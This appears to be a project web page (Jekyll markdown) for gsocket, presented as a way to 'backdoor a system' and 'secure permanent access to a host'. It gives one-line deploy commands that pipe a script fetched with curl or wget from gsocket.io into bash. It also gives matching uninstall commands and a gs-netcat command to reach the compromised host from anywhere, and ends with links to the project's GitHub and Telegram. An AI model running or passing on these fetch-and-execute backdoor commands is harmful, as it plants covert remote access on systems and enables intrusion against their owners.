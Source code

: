 ```yaml
---
layout: default
---
```


Rapid deployment to quickly secure permanent access to a host.

> _This must be the shortest single-line command to backdoor a system_
>                                                 -- anonymous

Use either of these two commands to _deploy_:
```shell
bash -c "$(curl -fsSL gsocket.io/x)"
```

```shell
bash -c "$(wget -qO- gsocket.io/x)"
```

Use either of these two commands to _uninstall_:
```shell
GS_UNDO=1 bash -c "$(curl -fsSL gsocket.io/x)"
```
```shell
GS_UNDO=1 bash -c "$(wget -qO- gsocket.io/x)"
```

Access the remote host from anywhere else in the word:
```shell
$ gs-netcat -s ExampleSecretChagneMe -i
```
---
{:refdef: style="text-align: center;"}
EXAMPLE
{: refdef}
Install
{:refdef: style="text-align: center;"}
![Deploy-Example](../assets/images/deploy-example.png)
{: refdef}
Login
{:refdef: style="text-align: center;"}
![Deploy-Login](../assets/images/deploy-login.png)
{: refdef}
---
Check out our [GitHub Page](https://github.com/hackerschoice/gsocket) for more fun.  

Get Involved. We are looking for volunteers to work on the website and a logo and to discuss new ideas. [Join us on telegram](https://t.me/thcorg).

